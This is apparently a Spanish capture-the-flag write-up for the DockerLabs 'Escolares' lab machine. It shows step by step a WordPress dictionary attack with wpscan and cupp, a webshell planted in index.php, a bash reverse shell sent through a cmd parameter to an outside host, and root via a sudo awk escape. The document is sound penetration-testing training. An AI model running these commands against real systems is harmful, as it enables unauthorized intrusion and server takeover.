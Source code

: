 ```yaml
---
layout: post
title: "Escolares"
date: 2024-10-18
 13:00:23
category: dockerlabs
vm: dockerlabsfacil
---
```


<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/dockerlabs/dockerlabs.png" width=260></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Escolares </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Nivel:</strong> <span class="easy">Facil</span></td> </tr>
  <tr> <td><strong><a href="https://dockerlabs.es" target="_blank"> DockerLabs</a></strong></td> </tr>
</table>

<br>

**1\.** Descubrimos los puertos disponibles del host, hay dos servicios corriendo, ssh y servicio web de apache.

`sudo nmap -p- --open -T5 --min-rate=5000 -sCV -n -Pn 172.17.0.2`

![img](/notas/public/img/dockerlabs/escolares/nmap.png){:.margin}

**2\.** Tenemos una pagina pero sin mas, no encontramos nada interesante por el momento.

`http://172.17.0.2`

![img](/notas/public/img/dockerlabs/escolares/80.png){:.margin}

**3\.** Hacemos fuzzing y vemos que tenemos un wordpress 

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,js -q`

![img](/notas/public/img/dockerlabs/escolares/gobuster.png){:.margin}

**4\.** Vamos  al wordpress, viendo su codigo fuente podemos ver que llama recursos de un dominio interno.

`http://172.17.0.2/wordpress/`

![img](/notas/public/img/dockerlabs/escolares/80wordpress.png){:.margin}

**5\.** Agregamos el dominio al etc/hosts para que nos resuelva y podamos trabajar correctamente con este dominio.

`nano /etc/hosts`

`172.17.0.2  escolares.dl`

`escolares.dl/wordpress/`

![img](/notas/public/img/dockerlabs/escolares/nanohosts.png){:.margin}
![img](/notas/public/img/dockerlabs/escolares/80wordpressok.png){:.margin}

**6\.** Podemos hacer un poco de fuzzing, encontramos el panel login del administrador

`gobuster dir -u http://172.17.0.2/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt,js -q`

![img](/notas/public/img/dockerlabs/escolares/gobuster.png){:.margin}

**7\.** Escaneamos usuarios y plugins vulnerables; nos encuentra el usuario luisillo.

`wpscan --url http://escolares.dl/wordpress -e vp,u`

![img](/notas/public/img/dockerlabs/escolares/wpscanuser.png){:.margin}

**8\.** En este punto vamos a revisar la seccion de profesores en la web, ahi tenemos a luis y que ademas es administrador.

`http://escolares.dl/profesores.html`

![img](/notas/public/img/dockerlabs/escolares/profesores.png){:.margin}

**9\.** Con informacion a la mano del usuario procedemos a generar un diccionario con los datos.

`sudo apt install cupp`

`cupp -i`

![img](/notas/public/img/dockerlabs/escolares/cupp.png){:.margin}

**10\.** Toca realizar el ataque de diccionario hacia el usuario luisillo; y rapidamente nos pilla la contraseña.

`wpscan --url http://escolares.dl/wordpress -U luisillo -P ./luis.txt`

![img](/notas/public/img/dockerlabs/escolares/wpscanpass.png){:.margin}

**11\.** Ingresamos al panel administrativo de wordpress, una vez dentro editamos el archivo index.php.

`http://escolares.dl/wordpress/admin`

![img](/notas/public/img/dockerlabs/escolares/wpfilemanager.png){:.margin}
![img](/notas/public/img/dockerlabs/escolares/indexcode.png){:.margin}

**12\.** Como vemos ya tenemos una webshell, ahora toca ponernos en escucha con nc y obtener una reverse shell.

`http://escolares.dl/wordpress/?cmd=id`

`nc -nlvp 4000`

`http://escolares.dl/wordpress/?cmd=bash -c "bash -i>%26 /dev/tcp/192.168.18.8/4000 0>%261"`

![img](/notas/public/img/dockerlabs/escolares/nc.png){:.margin}
![img](/notas/public/img/dockerlabs/escolares/ncok.png){:.margin}

**13\.** Vamos al directorio home, y encontramos la contraseña de luisillo, migramos a ese usuario.

`cat /home/secret.txt`

`su luisillo`

![img](/notas/public/img/dockerlabs/escolares/luisillopass.png){:.margin}

**14\.** Revisamos los permisos sudo del usuario, tenemos un binario con todos los permisos.

`sudo -l`

![img](/notas/public/img/dockerlabs/escolares/sudol.png){:.margin}

**15\.** Nos ayudamos con [gtfobins](https://gtfobins.github.io/gtfobins/awk/#sudo) para el uso del binario y escalar a root.

`sudo awk 'BEGIN {system("/bin/bash")}'`

![img](/notas/public/img/dockerlabs/escolares/root.png){:.margin}

<br>

<a href="#">_Finalizado._</a>